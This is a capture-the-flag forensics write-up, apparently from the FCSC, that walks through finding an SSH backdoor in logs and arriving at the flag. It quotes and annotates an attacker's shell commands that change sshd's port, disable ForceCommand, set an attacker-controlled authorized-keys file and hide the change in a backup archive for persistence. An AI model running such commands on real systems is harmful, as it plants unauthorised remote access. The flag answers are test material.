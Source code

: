 So now we're looking for a procotol, a port, an absolute path for an edited configuration file, and an absolute path for another persistance file.

Also, we only have 10 attempts for this flag.

First, i'm going to look at a protocol list, as this could allow us to find a foothold.

## **Types of Internet Protocol**

Internet Protocols are of different types having different uses. These are mentioned below:

1. [TCP/IP(Transmission Control Protocol/ Internet Protocol)](https://www.geeksforgeeks.org/tcp-ip-model/)
2. [SMTP(Simple Mail Transfer Protocol)](https://www.geeksforgeeks.org/simple-mail-transfer-protocol-smtp/)
3. [PPP(Point-to-Point Protocol)](https://www.geeksforgeeks.org/point-to-point-protocol-ppp-frame-format/)
4. [FTP (File Transfer Protocol)](https://www.geeksforgeeks.org/file-transfer-protocol-ftp-in-application-layer/)
5. [SFTP(Secure File Transfer Protocol)](https://www.geeksforgeeks.org/sftp-file-transfer-protocol/)
6. [HTTP(Hyper Text Transfer Protocol)](https://www.geeksforgeeks.org/http-full-form/)
7. [HTTPS(HyperText Transfer Protocol Secure)](https://www.geeksforgeeks.org/explain-working-of-https/)
8. [TELNET(Terminal Network)](https://www.geeksforgeeks.org/introduction-to-telnet/)
9. [POP3(Post Office Protocol 3)](https://www.geeksforgeeks.org/pop-full-form/)
10. [IPv4](https://www.geeksforgeeks.org/what-is-ipv4/)
11. [IPv6](https://www.geeksforgeeks.org/what-is-ipv6/)
12. [ICMP](https://www.geeksforgeeks.org/internet-control-message-protocol-icmp/)
13. [UDP](https://www.geeksforgeeks.org/user-datagram-protocol-udp/)
14. [IMAP](https://www.geeksforgeeks.org/internet-message-access-protocol-imap/)
15. [SSH](https://www.geeksforgeeks.org/introduction-to-sshsecure-shell-keys/)
16. Gopher

Let's grep some of these ones in the logs.

Also, on the last part, we found this:
```bash
sed -i 's/port 830/port 1337/' /data/runtime/etc/ssh/sshd_server_config > /dev/null 2>&1
sed -i 's/ForceCommand/#ForceCommand/' /data/runtime/etc/ssh/sshd_server_config > /dev/null 2>&1
echo "PubkeyAuthentication yes" >> /data/runtime/etc/ssh/sshd_server_config
echo "AuthorizedKeysFile /data/runtime/etc/ssh/ssh_host_rsa_key.pub" >> /data/runtime/etc/ssh/sshd_server_config
pkill sshd-ive > /dev/null 2>&1
gzip -d /data/pkg/data-backup.tgz > /dev/null 2>&1
tar -rf /data/pkg/data-backup.tar /data/runtime/etc/ssh/sshd_server_config > /dev/null 2>&1
gzip /data/pkg/data-backup.tar > /dev/null 2>&1
mv /data/pkg/data-backup.tar.gz /data/pkg/data-backup.tgz > /dev/null 2>&1
```

Which seems to edit the ssh config file.

Let's search for SSH, and ports 1337 !

We can find this line on our logs:
```bash
sshd-ive  22500     root    3u     IPv4            1585502       0t0        TCP 172.18.0.4:1337 (LISTEN)
```

So, we already know most of the things if that's the right thing to look for.

```
Protocol: SSH
Port: 1337 (Leet :3)
Edited configuration file: "/data/runtime/etc/ssh/sshd_server_config"
Persistance file: "/data/runtime/etc/ssh/ssh_host_rsa_key.pub"
```

Can be that easy... Could it be ?
`FCSC{ssh:1337:/data/runtime/etc/ssh/sshd_server_config:/data/runtime/etc/ssh/ssh_host_rsa_key.pub}`

Nah.

Might try SSH in uppercase, just in... case :')

Nah.
```
FCSC{ssh:1337:/data/runtime/etc/ssh/sshd_server_config:/data/runtime/etc/ssh/ssh_host_rsa_key.pub}
```
Not that either.

Let's comment the above commands, i probably missed something:
```bash
# Replace the default port with 1337 (netconf-ssh default port was 830)
sed -i 's/port 830/port 1337/' 
/data/runtime/etc/ssh/sshd_server_config > /dev/null 2>&1

# Comment the "force command" parameter
sed -i 's/ForceCommand/#ForceCommand/' /data/runtime/etc/ssh/sshd_server_config > /dev/null 2>&1

# Allow pubkey authentication
echo "PubkeyAuthentication yes" >> /data/runtime/etc/ssh/sshd_server_config

# Authorize the pubkey "ssh_host_rsa_key.pub"
echo "AuthorizedKeysFile /data/runtime/etc/ssh/ssh_host_rsa_key.pub" >> /data/runtime/etc/ssh/sshd_server_config

# Stop sshd-ive
pkill sshd-ive > /dev/null 2>&1

# Unzip the config
gzip -d /data/pkg/data-backup.tgz > /dev/null 2>&1

# Tar the sshd config
tar -rf /data/pkg/data-backup.tar /data/runtime/etc/ssh/sshd_server_config > /dev/null 2>&1

# Tar gz the sshd config
gzip /data/pkg/data-backup.tar > /dev/null 2>&1

# Rename it
mv /data/pkg/data-backup.tar.gz /data/pkg/data-backup.tgz > /dev/null 2>&1
```

He also replaced the old data-backup with a new one, with the edited sshd config.

Maybe that's the file they're talking about for "the other persistance file" ?

Let's try !

Flagged :)
```
FCSC{ssh:1337:/data/runtime/etc/ssh/sshd_server_config:/data/pkg/data-backup.tgz}
```